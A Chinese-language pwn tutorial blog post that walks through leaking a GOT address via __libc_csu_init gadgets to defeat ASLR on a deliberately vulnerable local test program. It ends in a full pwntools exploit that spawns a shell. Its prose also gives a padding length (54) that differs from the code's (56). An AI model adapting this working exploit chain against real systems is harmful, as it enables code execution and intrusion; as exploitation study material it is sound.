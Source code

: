 ```yaml
---
title: leak_got_addr
date: 2017-11-15
tags: pwn
---
```


> this is a test, not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 用`gcc`编译需要关闭`stack-protector`

- 需要`gdb` `peda` `pwntools`
<!-- more -->
- 攻击目标`test.c`

  ```c
  #include<unistd.h>
  int main(){
  	char buf[10];
  	write(1,"2333\n",5);
  	read(0,buf,256);
  	return 0;
  }
  ```

## 0x01分析

这次把栈溢出的保护几乎都打开了，`ASLR`使得无法通过`ret2libc`来获得shell，栈上也没有可执行权限。所以可以通过`write`函数leak一个函数在内存中的地址（它是随机的），然后根据`libc.so.6`文件中`system`与`write`的相对地址，推算出`system`在本次运行中的内存中的地址。

这里可以利用一个Linux下的特性，**lazy binding**，简单来说，GOT 表的初始值都指向 PLT 表对应条目中的某个片段，这个片段的作用是调用一个函数地址解析函数。当程序需要调用某个外部函数时，首先到 PLT 表内寻找对应的入口点，跳转到 GOT 表中。如果这是第一次调用这个函数，程序会通过 GOT 表再次跳转回 PLT 表，运行地址解析程序来确定函数的确切地址，并用其覆盖掉 GOT 表的初始值，之后再执行函数调用。当再次调用这个函数时，程序仍然首先通过 PLT 表跳转到 GOT 表，此时 GOT 表已经存有获取函数的内存地址，所以会直接跳转到函数所在地址执行函数。

第一次函数调用：
![第一次调用函数](/images/leak_gotaddr_0.png)
以后的函数调用：
![以后的函数调用](/images/leak_gotaddr_1.png)

例如：下面的执行流处于调用`write`函数的上面

```
   0x40056e <main+8>:	mov    edx,0x5
   0x400573 <main+13>:	mov    esi,0x400624
   0x400578 <main+18>:	mov    edi,0x1
=> 0x40057d <main+23>:	call   0x400430 <write@plt>
   0x400582 <main+28>:	lea    rax,[rbp-0x10]
   0x400586 <main+32>:	mov    edx,0x100
   0x40058b <main+37>:	mov    rsi,rax
   0x40058e <main+40>:	mov    edi,0x0
```

跟进去

```
  0x400420:	push   QWORD PTR [rip+0x200be2]        # 0x601008
   0x400426:	jmp    QWORD PTR [rip+0x200be4]        # 0x601010
   0x40042c:	nop    DWORD PTR [rax+0x0]
=> 0x400430 <write@plt>:	jmp    QWORD PTR [rip+0x200be2]        # 0x601018
 | 0x400436 <write@plt+6>:	push   0x0
 | 0x40043b <write@plt+11>:	jmp    0x400420
 | 0x400440 <read@plt>:	jmp    QWORD PTR [rip+0x200bda]        # 0x601020
 | 0x400446 <read@plt+6>:	push   0x1
 |->   0x400436 <write@plt+6>:	push   0x0
       0x40043b <write@plt+11>:	jmp    0x400420
       0x400440 <read@plt>:	jmp    QWORD PTR [rip+0x200bda]        # 0x601020
       0x400446 <read@plt+6>:	push   0x1
                                                                  JUMP is taken
```

指令准备发生跳转到`0x400420`处，而`0x400420`处的指令即是跳转到`0x601010`，`0x601010`处存储的是解析函数实际地址的指令地址

```
  0x40041c:	add    BYTE PTR [rax],al
   0x40041e:	add    BYTE PTR [rax],al
   0x400420:	push   QWORD PTR [rip+0x200be2]        # 0x601008
=> 0x400426:	jmp    QWORD PTR [rip+0x200be4]        # 0x601010
 | 0x40042c:	nop    DWORD PTR [rax+0x0]
 | 0x400430 <write@plt>:	jmp    QWORD PTR [rip+0x200be2]        # 0x601018
 | 0x400436 <write@plt+6>:	push   0x0
 | 0x40043b <write@plt+11>:	jmp    0x400420
 |->   0x7ffff7dee870 <_dl_runtime_resolve_avx>:	push   rbx
       0x7ffff7dee871 <_dl_runtime_resolve_avx+1>:	mov    rbx,rsp
       0x7ffff7dee874 <_dl_runtime_resolve_avx+4>:	and    rsp,0xffffffffffffffe0
       0x7ffff7dee878 <_dl_runtime_resolve_avx+8>:	sub    rsp,0x180
                                                                  JUMP is taken
```

上面的`_dl_runtime_resolve_avx`函数就是解析实际地址的指令

## 0x02查找可用的gadgets

因为`write`函数至少需要三个参数，所以需要找到`rdi，rsi，rdx`来传递参数，这个时候，`<__libc_csu_init>`函数就比较好用了，用`objdump -S test`来查看所有的汇编代码

```
00000000004005a0 <__libc_csu_init>:
  4005a0:	41 57                	push   %r15
  4005a2:	41 56                	push   %r14
  4005a4:	41 89 ff             	mov    %edi,%r15d
  4005a7:	41 55                	push   %r13
  4005a9:	41 54                	push   %r12
  4005ab:	4c 8d 25 5e 08 20 00 	lea    0x20085e(%rip),%r12        # 600e10 <__frame_dummy_init_array_entry>
  4005b2:	55                   	push   %rbp
  4005b3:	48 8d 2d 5e 08 20 00 	lea    0x20085e(%rip),%rbp        # 600e18 <__init_array_end>
  4005ba:	53                   	push   %rbx
  4005bb:	49 89 f6             	mov    %rsi,%r14
  4005be:	49 89 d5             	mov    %rdx,%r13
  4005c1:	4c 29 e5             	sub    %r12,%rbp
  4005c4:	48 83 ec 08          	sub    $0x8,%rsp
  4005c8:	48 c1 fd 03          	sar    $0x3,%rbp
  4005cc:	e8 2f fe ff ff       	callq  400400 <_init>
  4005d1:	48 85 ed             	test   %rbp,%rbp
  4005d4:	74 20                	je     4005f6 <__libc_csu_init+0x56>
  4005d6:	31 db                	xor    %ebx,%ebx
  4005d8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4005df:	00
  4005e0:	4c 89 ea             	mov    %r13,%rdx
  4005e3:	4c 89 f6             	mov    %r14,%rsi
  4005e6:	44 89 ff             	mov    %r15d,%edi
  4005e9:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
  4005ed:	48 83 c3 01          	add    $0x1,%rbx
  4005f1:	48 39 eb             	cmp    %rbp,%rbx
  4005f4:	75 ea                	jne    4005e0 <__libc_csu_init+0x40>
  4005f6:	48 83 c4 08          	add    $0x8,%rsp
  4005fa:	5b                   	pop    %rbx
  4005fb:	5d                   	pop    %rbp
  4005fc:	41 5c                	pop    %r12
  4005fe:	41 5d                	pop    %r13
  400600:	41 5e                	pop    %r14
  400602:	41 5f                	pop    %r15
  400604:	c3                   	retq   
  400605:	90                   	nop
  400606:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  40060d:	00 00 00
```

可以看到从`0x4005fa`开始，进行了弹栈，可以控制`rbx，rbp，r12，r13，r14，r15`的值，配合`0x4005e0`处的指令，就可以控制`edi，rsi，rdx`的值了，要注意的是`0x4005f4`处有一个跳转指令，要让跳转失效，就必须让`rbp==rbx`，继续向前看，`0x4005ed`处让`rbx`加上了1，`0x4005e9`处的意思是调用`r12+rbx×8`处的指令，不妨让`rbx=0`，`rbp=1`

## 0x03编写payload

尝试了一下新工具`pwntools`

```python
from pwn import *


libc = ELF('./libc.so.6')
elf = ELF('./test')
return_offset = 24
got_write = elf.got['write']
got_read = elf.got['read']
gadget0_addr = 0x4005fa
gadget1_addr = 0x4005e0
main_addr = 0x400566
bss_addr = 0x601040
symbols_offset = libc.symbols['write'] - libc.symbols['system']

payload1 = 'a' * return_offset
payload1 += p64(gadget0_addr) + p64(0) + p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1)
payload1 += p64(gadget1_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)

r = process('./test')
r.recvuntil('2333\n')

print '--------payload1'

r.send(payload1)
sleep(1)

write_addr = u64(r.recv(8))
system_addr = write_addr - symbols_offset
r.recvuntil('2333\n')

payload2 = 'a' * return_offset
payload2 += p64(gadget0_addr) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0)
payload2 += p64(gadget1_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)

print '--------payload2'
r.send(payload2)
sleep(1)
r.send(p64(system_addr))
r.send('/bin/sh\0')
sleep(1)
r.recvuntil('2333\n')

payload3 = 'a' * return_offset
payload3 += p64(gadget0_addr) + p64(0) + p64(1) + p64(bss_addr) + p64(0) + p64(0) + p64(bss_addr + 8)
payload3 += p64(gadget1_addr)

print '--------payload3'
r.send(payload3)
sleep(1)

r.interactive()
```

三段payload的结构大致相似，首先一段padding，填充到`read`函数的返回地址之前，然后让程序跳转到`pop...`处，接下来，是需要`pop`对象：

第一个0是存进`rbx`的，第二个1是存进`rbp`的，接下来是`write`函数在GOT表中的地址，存进`r12`，也就是第二个`gadget`中`call`的对象，然后是`write`函数的三个参数（注意寄存器顺序），其中第二个参数是`write`函数在GOT表中的地址，因为已经执行过`write`函数了（现在执行流就在`write`函数里面），所以这个地址存放的指令不再是跳转，解析，而是`write`函数在内存中的实际地址，这样就让程序`leak`出了一段真实地址

现在payload已经完成了所有值的传递，接着是第二段`gadget`，然后为了让程序回到`main`函数里面（保住接着溢出攻击），用54字节的padding填充弹栈行为，劫持到`0x400604`处的`retq`指令，回到`main`函数

然后两个`payload`和第一个结构类似，第二个`payload`将`system`的实际地址，以及`/bin/sh`存入`.bss`段中，第三个`payload`则是调用`system`函数，实现getshell

## 0x04总结

通过`leak_gotaddr`，可以获得函数的真实地址，也就是绕过了`ASLR`的保护
